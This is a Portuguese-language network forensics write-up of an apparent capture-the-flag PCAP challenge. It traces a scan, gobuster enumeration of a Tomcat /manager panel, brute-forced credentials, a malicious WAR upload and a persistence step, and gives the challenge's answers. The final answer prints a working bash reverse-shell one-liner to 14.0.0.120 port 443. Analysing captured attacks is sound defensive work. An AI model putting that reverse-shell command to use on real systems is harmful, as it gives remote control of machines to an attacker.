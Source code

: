 #Category : Network Forensics #Difficult : Easy
***
#### Info
Recebemos um arquivo de tráfego de rede para prosseguir com as nossa investigações.
![[Pasted image 20250519175314.png]]
***
#### 1 - Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?
Podemos começar analisando pelas `Conversations Statistics`. E notar se há alguma variação de portas sobre o mesmo `IP`, o que indicaria uma varredura, pois se você sabe o serviço de um servidor, não é necessário ir testando as portas.
![[Pasted image 20250519175916.png]]

Nas conversas `TCP` temos uma variação de portas muito grande do servidor `10.0.0.112` de requisições vindas de  `14.0.0.120`.

**Answer :** `14.0.0.120`
***
#### 2 - Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?
Podemos usar uma `API` diretamente pelo terminal para termos algumas informações sobre esse `IP`.
![[Pasted image 20250519183755.png]]

**Answer :** `China`
***
#### 3 - From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?
Aqui filtrei pelo protocolo `HTTP` e pelo `IP` de origem sendo o `IP` do atacante. Após o filtro, só restaram as portas `80` mas ainda assim procurei pela rota do `Admin`.
![[Pasted image 20250519190926.png]]

**Answer :** `8080`
***
#### 4 - Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
Aqui podemos olhar o `User-Agent` até encontrar algum que seja incomum de uma requisição normal.
![[Pasted image 20250519191236.png]]

**Answer :** `gobuster`
***
#### 5 - After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?
Filtrei por requisições enviadas pelo `Gobuster` pertencentes ao atacante e com resposta `200`.
![[Pasted image 20250519194518.png]]

Nas respostas `200` temos uma com a requisição de nome interessante, referente a um endpoint `manager`.

**Answer :** `/manager`
***
#### 6 - After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?
De começo tentei filtrar por algum tipo de autenticação na página, como não achei, decidi filtrar pela autenticação do próprio `HTTP`.
![[Pasted image 20250519195059.png]]

Então segui o fluxo `HTTP` do último pacote, pois como foi o último, significa que após isso ele foi autenticado.
![[Pasted image 20250519195638.png]]

Então utilizo um decode `Base64` para obter o valor original.
![[Pasted image 20250519195714.png]]

**Answer :** `admin:tomcat`
***
#### 7 - Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?
Ainda nesse fluxo podemos obter o nome do arquivo que foi enviado.
![[Pasted image 20250519200024.png]]

**Answer :** `JXQOZY.war`
***
#### 8 - After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?
Nesse fluxo foi enviado o `payload`, no próximo `Stream` podemos ver os comando que o atacante enviou para a máquina através do payload.
![[Pasted image 20250519201251.png]]

E aqui temos mais conversas relacionadas ao payload.
![[Pasted image 20250519201327.png]]

**Answer :** `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
***
![[Pasted image 20250519201358.png]]